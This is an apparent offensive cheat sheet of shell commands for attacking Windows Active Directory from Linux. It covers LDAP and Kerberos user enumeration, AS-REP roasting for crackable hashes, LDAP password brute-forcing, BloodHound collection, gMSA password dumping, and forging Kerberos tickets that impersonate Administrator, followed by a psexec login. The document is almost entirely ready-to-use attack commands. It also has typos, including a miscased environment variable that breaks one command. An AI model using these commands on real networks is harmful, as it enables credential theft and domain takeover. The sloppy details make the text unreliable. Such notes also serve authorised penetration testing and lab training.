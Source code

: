 # linux attacker

## enumerate LDAP

```bash
nmap -n -sV --script "ldap* and not brute" -p 389 $rhost
```

## enumerate users with kerberos

```bash
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<some.domain>',userdb=/usr/share/seclists/Usernames/cirt-default-usernames.txt $rhost
```

## enumerate with AS_REP message

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py <some.domain>/ -usersfile /usr/share/seclists/Usernames/Honeypot-Captures/multiplesources-users-fabian-fingerle.de.txt -format hashcat -outputfile hashes.asreproast
```

## bruteforce ldap

```bash
crackmapexec ldap $rhost -u users.txt --kdcHost $rhost -p 'some.password'
```

## gather information for bloodhound (with valid creds)

```bash
bloodhound-python -u 'user_name' -p 'user_password' -dc "dc.domain.tld" -d "domain.tld" -ns "$rhost" -c ALL
```

# Permissions/Groups

## ReadGMSAPassword

GMSAPassword allows users to read Passwords from other users.
This can be used to get the kerberos hashes/tickets.

```bash
python3 gMSADumper.py -u user_name -p user_password -d domain.tld
```
# Kerberos

## Update clock

Kerberos is pretty much dependend on accurate time for server and clint so be sure to update the clock:

```bash
sudo ntpdate "$rhost"
```

## Or via faketime

```bash
export FAKETIME="2020-01-01 12:12:12"
export FAKETIME="+8h"
export LD_PRELOAD=/usr/local/lib/faketime/libfaketime.so.1
```

## Generate Silber Ticket from hash

```bash
python3 /usr/share/doc/python3-impacket/examples/getST.py -spn WWW/dc.domain.tld -impersonate Administrator domain.tld/user$ -hashes some_hash:some_hash
impacket-getST -spn WWW/dc.domain.tld -impersonate Administrator domain.tld/user$ -hashes some_hash:some_hash
```

### Use ticket (impacket-psexec)

```bash
KRB5CCNAME=Administrator.ccache impacket-psexec -k -no-pass -dc-ip "$rhost" -target-ip "$rhost" domain.tld/Administrator@dc.domain.tld
kRB5CCNAME=Administrator.ccache python3 /usr/share/doc/python3-impacket/examples/psexec.py -k -no-pass -dc-ip "$rhost" -target-ip "$rhost" domain.tld/Administrator@dc.domain.tld
```
